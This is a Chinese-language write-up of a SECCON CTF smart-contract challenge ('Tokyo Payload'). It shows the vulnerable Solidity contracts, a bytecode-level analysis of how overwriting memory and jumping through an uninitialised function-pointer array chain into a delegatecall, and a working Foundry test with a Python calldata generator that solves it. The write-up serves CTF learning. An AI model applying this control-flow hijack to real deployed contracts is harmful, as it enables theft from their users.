


## 题目

What is Solidity?

> nc tokyo-payload.seccon.games 31337

??? note "Setup.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    import {TokyoPayload} from "./TokyoPayload.sol";

    contract Setup {
        TokyoPayload public tokyoPayload;

        constructor() {
            tokyoPayload = new TokyoPayload();
        }

        function isSolved() public view returns (bool) {
            return tokyoPayload.solved();
        }
    }
    ```

??? note "TokyoPayload.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    contract TokyoPayload {
        bool public solved;
        uint256 public gasLimit;

        function tokyoPayload(uint256 x, uint256 y) public {
            require(x >= 0x40);
            resetGasLimit();
            assembly {
                calldatacopy(x, 0, calldatasize())
            }
            function()[] memory funcs;
            uint256 z = y;
            funcs[z]();
        }

        function load(uint256 i) public pure returns (uint256 a, uint256 b, uint256 c) {
            assembly {
                a := calldataload(i)
                b := calldataload(add(i, 0x20))
                c := calldataload(add(i, 0x40))
            }
        }

        function createArray(uint256 length) public pure returns (uint256[] memory) {
            return new uint256[](length);
        }

        function resetGasLimit() public {
            uint256[] memory arr;
            gasLimit = arr.length;
        }

        function delegatecall(address addr) public {
            require(msg.sender == address(0xCAFE));
            (bool success,) = addr.delegatecall{gas: gasLimit & 0xFFFF}("");
            require(success);
        }
    }
    ```

## 解题思路

> TokyoPayload: [Graph - Bytegraph - Smart-Contract Analysis](https://bytegraph.xyz/bytecode/6442127989179d00d4a0eb3a93dd092e/graph)

- 目标是让 `solved` 为 `true`，而 `TokyoPayload` 没有直接设置 `solved` 的语句，显然需要借助 `delegatecall`
- 地址检查限制了 `TokyoPayload.delegatecall()` 的调用，则只能通过 `tokyoPayload()` 跳转
- 分配给 `delegatecall` 的 gas 取决于通过 `arr.length` 设置的 `gasLimit`，而 `arr` 是尚未初始化的内存数组，那么即读取 `MEM[0x60]` 中的值。`calldatacopy` 可以覆盖 `MEM[0x60]` 中的值，使得 `arr.length > 0`，由此可确定 $x\in[40_{16}, 80_{16})$（且由于每次调用 `tokyoPayload()` 都会重设 `gasLimit`，需要通过一次调用来完成多次跳转）
- `DELEGATECALL` 所在块 `JUMPDEST` 的地址为 `0x1a3`，从栈顶到栈底调用栈应满足 `[目标地址addr, 下一跳转地址, ...]`
    - 希望代理调用结束后直接结束本次交易，下一跳转地址可以选择 `0x93`
    

- 可通过 `calldataload` 将所需参数压入栈中，构造合适的调用栈。三个 `CALLDATALOAD` 所在块 `JUMPDEST` 的地址为 `0xd0`，从栈顶到栈底调用栈应满足 `[起始地址i, 下一跳转地址, ...]`。执行到 `0xdf` 时，栈中元素为 `[下一跳转地址, c, b, a, ...]`
- 调用 `tokyoPayload()` 首次执行到函数跳转前，即 `0x18e JUMP`，对应源码 `funcs[z]()`，元素从栈顶到栈底依次为 `[0x18f, y, 0x60, y, x, ...]`
- 在内存覆盖完成后，需要再次调用 `resetGasLimit()`，可以选择 `0x153 JUMPDEST`，此时 `y` 对应栈顶元素 `STACK[0]`，`x` 对应 `STACK[1]`
- 由于需要使用 `SSTORE` 且对应 cold slot，至少需要 22100 gas，`tokyoPayload()` 的函数签名为 `0x40c3` (16579)，可以设 `x` 为 `0x7B` (0x80 - 5)，这样 `delegatecall` 的 `gasLimit` 为 `0xc300`
- 另外，`0x17f` 对应的块可以对栈结构进行微调，可用于跳转 `0xd0` 前，改变栈顶参数 `i`<br>


### Exploit

1. 调用 `tokyoPayload()`，覆盖内存，`funcs[z]()` 为 `0x17f`
2. `0x17f` `MEM[0x20 * 0x18f + 0x20 + y] = 0xd0`，执行到 `0x18e JUMP` 时，栈中元素从栈顶到栈底依次为 `[0xd0, 0x60, y, ...]`，由此 `y` 为 `0x153`
3. `0xd0` 构造栈，`b` 对应新的 `x`，`c` 对应新的 `y`
4. `0x153` 重设 `gasLimit`，下一跳转地址 `0x1a3` 对应 `y`，`funcs[z]()` 为 `0xd0`
5. `0xd0` 构造调用栈
6. `0x1a3` 代理调用

```js
contract Logic {
    fallback() external payable {
        assembly {
            sstore(0, 1)
        }
    }
}

contract TokyoPayloadTest is Test {

    TokyoPayload public tokyoPayload;
    address logic;

    function setUp() public {
        tokyoPayload = new TokyoPayload();
        logic = address(new Logic());
    }

    function testSolve() public {
        string[] memory inputs = new string[](3);
        inputs[0] = "python3";
        inputs[1] = "script/generate.py";
        inputs[2] = Strings.toHexString(logic);
        bytes memory data = vm.ffi(inputs);
        (bool s, ) = address(tokyoPayload).call(data);
        require(s);
        require(tokyoPayload.solved());
    }
}
```

```py
import sys

def place(offset, value: int):
    global data
    if l := len(data) // 2 < offset:
        data += '00' * (offset - l + 0x20)
    data = data[: offset * 2] + f'{value:064x}' + data[(offset + 0x20) * 2:]

target_addr = int(sys.argv[1], 16)
data = '000040c3'   # sig
data += f'{0x7b:064x}'  # x
data += f'{0x153:064x}' # y
place(0x4 + 0x153 * 0x20 + 1, 0x17f)   # funcs[0x153] = 0x17f
place(0x20 * 0x18f + 0x20 + 0x153 - 0x7b, 0xd0) # MEM[0x20 * 0x18f + 0x20 + y] = 0xd0
place(0x60 + 0x20, 0x7c) # b: new_x
place(0x60 + 0x40, 0x1a3) # c: new_y
place(0x4 + 0x1a3 * 0x20, 0xd0)   # funcs[0x1a3] = 0xd0
place(0x18f + 0x20, 0x93)   # b: STOP JUMPDEST
place(0x18f + 0x40, target_addr)   # c: DELEGATECALL target
print(data)
```

## 参考资料

- [Layout in Memory — Solidity documentation](https://docs.soliditylang.org/en/latest/internals/layout_in_memory.html)
- [Debugger - Foundry Book](https://book.getfoundry.sh/forge/debugger)